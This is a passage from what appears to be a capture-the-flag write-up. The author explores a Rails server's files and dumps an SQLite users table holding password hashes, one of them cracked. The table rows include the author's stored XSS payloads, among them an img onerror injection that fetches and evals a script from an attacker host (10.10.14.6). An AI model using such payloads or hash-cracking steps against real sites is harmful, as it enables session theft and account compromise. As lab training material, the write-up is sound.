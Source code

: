 There are three folders in `/var/www`: `html` contains the default Debian nginx page, `rails-app` holds the clipnotes application, and `openmediavault` appears to be a similar instance.

```
rails@derailed:/var/www$ ls
html  openmediavault  rails-app
```

In the `rails-app/db` folder, there is an SQLite database with a few tables.

```apacheconf
rails@derailed:/var/www/rails-app/db$ ls
development.sqlite3  migrate  schema.rb
rails@derailed:/var/www/rails-app/db$ sqlite3 development.sqlite3 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
ar_internal_metadata  reports               users               
notes                 schema_migrations
```

Apart from my submission, there are two more users: tody and alice.

```sql
sqlite> select * from users;
1|alice|$2a$12$hkqXQw6n0CxwBxEW/0obHOb.0/Grwie/4z95W3BhoFqpQRKIAxI7.|administrator|2022-05-30 18:02:45.319074|2022-05-30 18:02:45.319074
2|toby|$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle|user|2022-05-30 18:02:45.542476|2022-05-30 18:02:45.542476
105|msplmee|$2a$12$caMXDyG2cRPNW.NjRDuToOjpaupaLGTHk/.y5Do.x1Lw40x/sm7Wa|user|2023-09-13 03:44:45.207529|2023-09-13 03:44:45.207529
106|msplmee<b>msplmee</b>|$2a$12$tik6SVsW79fqIGDTRfHfxOWJVAsYH0SehwX7mbdu6PaN6US295hJy|user|2023-09-13 03:47:57.278802|2023-09-13 03:47:57.278802
107|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A|$2a$12$9A7dGoEN8c9F/KD.WI5xX.KyJn7vSHtA8TdYHLM2qjkzCmLWp4Z1C|user|2023-09-13 04:24:10.394917|2023-09-13 04:24:10.394917
108|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A|$2a$12$Ncp8I2Dw1iu8ye9U5Ezk0uiQmyrJaBbGvumjBPuqZpQwnQDiStTXq|user|2023-09-13 04:24:19.237797|2023-09-13 04:24:19.237797
109|msplmee@kali:~$ python3 -c "print('A'*48+ \"<img src=x onerror=alert(1)/>\")"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<img src=x onerror=alert(1)/>|$2a$12$LzWoOovwTXxfop7AQ6gkeeehZAIR7kEULYDA4MY8vbDz5Q0WPUScS|user|2023-09-13 04:34:03.928995|2023-09-13 04:34:03.928995
110|AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<img src=x onerror=alert(1)/>|$2a$12$fd91s1GS/9Ds7GGVb0uCYuDzjSrSQ5q5TXqR8nGCniM7S1yFuu/4a|user|2023-09-13 04:34:36.432977|2023-09-13 04:34:36.432977
111|AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<img src='#' onerror=alert(1)/>|$2a$12$PCxL1lRlc4MmtAZo4xUtYu.aWhNnQeC9SPSu9LEyYiYuknvvG4EYq|user|2023-09-13 04:40:41.581708|2023-09-13 04:40:41.581708
112|AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<img src='#' onerror="fetch('http://10.10.14.6/xss.js').then(r => r.text()).then(t => {eval(t)});" />|$2a$12$mDRkV0rUXHEvk9bus0cLHe95Nq4nmQRqzAEhH90Stk5RDt7JTuRqu|user|2023-09-13 04:53:59.999806|2023-09-13 04:53:59.999806
```

Toby's hash is quickly cracked as `greenday`.
